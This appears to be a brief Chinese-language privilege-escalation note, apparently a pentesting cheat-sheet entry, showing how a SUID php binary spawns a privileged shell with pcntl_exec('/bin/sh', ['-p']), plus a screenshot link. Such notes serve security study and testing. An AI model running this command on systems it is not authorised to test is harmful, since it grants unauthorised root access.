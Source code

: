 1. 执行如下命令：

```bash
CMD="/bin/sh"
```

2. 再使用 php 执行如下命令即可提权：

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

实例：

![d2Y19x.png](https://s1.ax1x.com/2020/08/26/d2Y19x.png)
